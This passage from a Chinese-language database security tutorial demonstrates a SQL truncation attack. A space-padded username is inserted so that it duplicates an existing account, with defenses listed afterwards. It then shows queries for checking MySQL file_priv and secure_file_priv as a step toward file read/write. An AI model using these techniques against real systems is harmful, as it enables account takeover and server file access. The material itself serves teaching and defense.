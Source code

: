 
```sql
mysql> SELECT * FROM users
    -> WHERE username='vampire                   1';
Empty set (0.00 sec)
```



需要注意的是，在执行SELECT查询语句时，SQL是不会将字符串缩短为25个字符的。因此，这里将使用完整的字符串进行搜索，所以不会找到匹配的结果。接下来，当执行INSERT查询语句时，它只会插入前25个字符。



```sql
mysql>   INSERT INTO users(username, password)
    -> VALUES ('vampire                   1', 'random_pass');
Query OK, 1 row affected, 1 warning (0.05 sec)
mysql> SELECT * FROM users
    -> WHERE username='vampire';
+---------------------------+-------------+
| username                  | password    |
+---------------------------+-------------+
| vampire                   | my_password |
| vampire                   | random_pass |
+---------------------------+-------------+
2 rows in set (0.00 sec)
```



很好，现在我们检索“vampire”的，将返回两个独立用户。注意，第二个用户名实际上是“vampire”加上尾部的18个空格。现在，如果使用用户名“vampire”和密码“random_pass”登录的话，则所有搜索该用户名的SELECT查询都将返回第一个数据记录，也就是原始的数据记录。这样的话，攻击者就能够以原始用户身份登录。这个攻击已经在MySQL和SQLite上成功通过测试

#### 防御：

-  给username字段添加unique属性。 
-  使用id字段作为判断用户的凭证。 
-  插入数据前判断数据长度。 
   我们知道Mysql是很灵活的，它支持文件读/写功能。在讲这之前，有必要介绍下什么是`file_priv`和`secure-file-priv`。
   简单的说：`file_priv`是对于用户的文件读写权限，若无权限则不能进行文件读写操作，可通过下述payload查询权限。 

## 文件读写

```sql
select file_priv from mysql.user where user=$USER host=$HOST;
```


`secure-file-priv`是一个系统变量，对于文件读/写功能进行限制。具体如下： 

- - 无内容，表示无限制。
  - 为NULL，表示禁止文件读/写。
  - 为目录名，表示仅允许对特定目录的文件进行读/写。

注：**5.5.53本身及之后的版本默认值为NULL，之前的版本无内容**。
三种方法查看当前`secure-file-priv`的值： 

```sql
select @@secure_file_priv;
select @@global.secure_file_priv;
show variables like "secure_file_priv";
```
